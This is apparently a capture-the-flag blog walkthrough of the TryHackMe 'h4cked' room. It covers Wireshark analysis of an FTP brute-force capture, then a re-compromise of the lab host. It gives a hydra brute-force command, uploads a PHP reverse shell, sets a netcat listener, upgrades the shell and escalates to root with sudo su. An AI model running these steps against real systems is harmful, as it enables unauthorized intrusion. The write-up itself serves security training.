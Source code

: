 ```yaml
---
layout: post
title: "Broker"
date: 2021-03-21
ctf: true
excerpt: "Walkthrough for h4cked on TryHackMe"
tags: [hydra, reverse shell, Wireshark, packet analysis, rootkit]
comments: false
---
```


# h4cked

h4cked is an easy difficulty room on TryHackMe. Below are the steps I followed to answer the questions for this box.

## Hints

<details><summary><strong>Task 1 Hints</strong></summary>
<ul>
    <li>Have you reviewed the packet capture to see what's going on?
    <li>Look for some commonly used services to find which one is being brute forced by the attacker.
    <li>Reviewing TCP streams will provide great insight into answering most of these questions.
</ul>
</details>

<details><summary><strong>Task 2 Hints</strong></summary>
<ul>
    <li>Use hydra to brute force the password for the service identified in Task 1.
    <li>Don't forget to start a listener on your attacker box.
    <li>What command can you use to gain elevated privileges once logged in?
</ul>
</details>

<details><summary><strong>Full Walkthrough</strong></summary>

### Task 1

#### Question 1

![h4cked question 1](/assets/img/h4cked1.png)

After downloading the pcapng file, open it up in Wireshark and then click on **Statistics** followed by **Protocol Hierarchy**. This will show you all the protocols utilized in this packet capture as shown below.

![h4cked Wireshark protocols](/assets/img/h4cked2.png)

Based on this, there are two protocols utilized, HTTP and FTP. Let's close this window and in the filter toolbar, enter the following:

**`ftp`**

![h4cked Wireshark ftp filter](/assets/img/h4cked3.png)

Next, right click on packet 49 (the first filtered packet) and select **Follow** and then **TCP Stream**

![h4cked Wireshark follow TCP stream](/assets/img/h4cked4.png)

The window that pops up shows you that this service has attempts to login to it as shown below, so **FTP** is the answer to Question 1.

![h4cked ftp TCP stream](/assets/img/h4cked5.png)



#### Question 2

This question asks you about a popular brute forcing tool.

![h4cked Question 2](/assets/img/h4cked6.png)

A quick Google search for **Van Hauser brute force tool** will reveal the answer of **hydra**

![h4cked Google van hauser brute force tool](/assets/img/h4cked7.png)

#### Questions 3 and 4

![h4cked Questions 3 and 4](/assets/img/h4cked8.png)

These can be found by following the steps in Question 1. Filtering Wireshark by ftp and then following the first TCP stream. This results in a username of **jenny** and a password of **password123**.

![h4cked Wireshark Questions 3 and 4](/assets/img/h4cked9.png)

#### Questions 5 and 6

![h4cked Questions 5 and 6](/assets/img/h4cked10.png)

In Wireshark, add the following as your filter:

**`ftp contains "PWD"`**

This filters out commands to only show FTP protocols that are running the PWD (print working directory) command. 

![h4cked Wireshark ftp PWD](/assets/img/h4cked11.png)

Follow the TCP stream (as you did for prior questions) and you will see the server's response to the PWD request, which is the answer to question 5. Further in this TCP is the answer to Question 6 as well.

![h4cked Wireshark ftp PWD TCP Stream](/assets/img/h4cked12.png)



#### Question 7

![h4cked Question 7](/assets/img/h4cked13.png)

Let's turn our focus to the ftp-data protocol in Wireshark and enter the following filter:

**`ftp-data"`**

![h4cked Wireshark ftp-data](/assets/img/h4cked14.png)

As we have done previously, Follow the TCP dream for the 2nd packet listed (431).

![h4cked shell.php URL](/assets/img/h4cked15.png)

#### Questions 8 - 13

![h4cked Questions 8-13](/assets/img/h4cked16.png)

For these questions you can filter with the following in Wireshark:

**`frame contains "whoami"`**

I assumed whoami was the command used as it's one of the first commands ran to gather information once a foothold has been established.

![h4cked Wireshark frame filter](/assets/img/h4cked17.png)

Once filtered, you can do another Follow TCP Stream to get answers to Questions 8 -13:

**Question 8**

![h4cked Question 8 answer](/assets/img/h4cked18.png)

**Question 9**

![h4cked Question 9 answer](/assets/img/h4cked19.png)

**Question 10**

![h4cked Question 10 answer](/assets/img/h4cked20.png)

**Question 11**

![h4cked Question 11 answer](/assets/img/h4cked21.png)

**Question 12**

![h4cked Question 12 answer](/assets/img/h4cked22.png)

**Question 13**

This one is somewhat general knowledge, but a quick Google search will likely get your answer. The answer is **rootkit**.

### Task 2

There is only one question that needs an answer, which is reading the flag.txt file. Here are the steps to follow to root this host. First, let's run hydra on the jenny user with the following command on our attacker host.

**`hydra -t 10 -l jenny -P /usr/share/wordlists/rockyou.txt 10.10.237.6  ftp`**

Where 10.10.237.6 is the victim host's IP address. After a few minutes you will uncover the new password for jenny.

![h4cked hydra](/assets/img/h4cked23.png)

Great, now we know the FTP password for jenny. Let's download the reverse PHP shell located [here](https://github.com/pentestmonkey/php-reverse-shell). Save the file as **shell.php** in your user's home folder.

![h4cked reverse shell modification](/assets/img/h4cked24.png)

Next, let's ftp as the jenny user over to our victim host from our attacker host using the password we uncovered. To initially connect, run:

**`ftp <victim ip>`**

![h4cked ftp connection](/assets/img/h4cked25.png)

Next let's run:

**`bin`**

and

**`put shell.php`**

to change the mode to binary mode and upload the shell.

![h4cked upload reverse shell](/assets/img/h4cked26.png)

On your attacker host, run the following to open up a listener to catch the reverse shell:

**`nc -nvlp 4444`**

![h4cked nc listener](/assets/img/h4cked27.png)

Next, navigate to **http://\<attacker ip>/shell.php** and you should see a connection to your netcat listener.

![h4cked reverse shell connection](/assets/img/h4cked28.png)

Next, let's get a fully interactive shell with the following python command:

**`python3 -c 'import pty; pty.spawn("/bin/bash")'`**

![h4cked upgrade shell](/assets/img/h4cked29.png)

You will notice we are running as the www-data user. Let's run:

**`su jenny`** to switch over to the jenny user and enter the password we uncovered earlier.

![h4cked su jenny](/assets/img/h4cked30.png)

Next, let's run the following to change our privileges to root:

**`sudo su`**

![h4cked su root](/assets/img/h4cked31.png)

Next, run the following commands to change to the root user's home directory, list that directory's contents, navigate to the Reptile subdirectory, list that directory's contents, and then display the flag.txt file.

**`cd /root`**

**`ls -al`**

**`cd Reptile`**

**`ls -al`**

**`cat flag.txt`**

![h4cked root.txt](/assets/img/h4cked32.png)

And that is the end of this box! It has been fully compromised (again).

</details>

